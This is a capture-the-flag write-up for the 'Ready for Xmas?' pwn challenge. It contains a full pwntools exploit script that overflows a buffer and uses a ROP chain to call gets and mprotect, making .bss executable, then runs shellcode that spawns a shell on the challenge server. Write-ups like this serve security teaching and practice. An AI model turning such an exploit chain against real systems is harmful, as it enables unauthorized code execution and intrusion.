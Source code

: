 ## XMAS CTF: Ready for Xmas? [pwn]
![](ready_desc.png)

#### Buffer overflow challenge with NX as the only enabled protection. Performing the normal ret2system ropchain was a failed attempt since I kept getting SIGBUS signals. So I had to change the plan by reusing the functions used in the challenge.

#### The approach is simple, to call gets in order for us to place our shellcode in the .bss section afterwhich we call mprotect and set it to an rwx region. Since .bss is not affected by PIE/ASLR, we can simply jump to it and execute our shellcode.

```python
from pwn import *

context.arch = 'amd64'
#p = process('./chall')
p = remote("challs.xmas.htsp.ro", 2001)
binary = ELF('./chall', checksec = False)
breakpoints = ['break *0x400826']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))
print(p.recvuntil('Christmas?\n'))

#
pop_rdi = 0x00000000004008e3
pop_rsi = 0x00000000004008e1
mov_rdx = 0x0000000000400786
ret = 0x00000000004005e6
mprotect = 0x40086a

#: get shellcode from user input, store into .bss
exploit = cyclic(72)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(0x601000)
exploit += p64(binary.symbols['gets'])

#: try to memset .bss as rwx
exploit += p64(pop_rdi)
exploit += p64(0x601000)
exploit += p64(pop_rsi)
exploit += p64(0x1000)
exploit += p64(0x7)
exploit += p64(mov_rdx)
exploit += p64(0x0)
exploit += p64(binary.symbols['mprotect'])
exploit += p64(0x601000)

p.sendline(exploit)
p.sendline(asm(shellcraft.sh()))
p.interactive()
```

![](ready_shell.png)